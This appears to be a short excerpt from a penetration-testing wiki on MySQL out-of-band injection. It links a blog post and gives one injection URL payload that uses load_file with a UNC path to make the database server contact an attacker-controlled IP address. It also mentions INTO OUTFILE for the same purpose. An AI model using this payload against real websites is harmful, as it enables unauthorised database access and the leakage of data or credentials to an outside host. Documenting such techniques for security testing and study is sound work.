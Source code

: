 ![](<../../.gitbook/assets/image (638) (2).png>)

## MySQL Injection

I have written a complete [post ](https://osandamalith.com/2017/02/03/mysql-out-of-band-hacking/)on MySQL out-of-band injections which can be applied over the internet. You can also use ‘INTO OUTFILE’ to resolve a network path.

```
http://host.tld/index.php?id=1’ union select 1,2,load_file(‘\\\\192.168.0.100\\@OsandaMalith’),4;%00
```

![](<../../.gitbook/assets/image (663).png>)
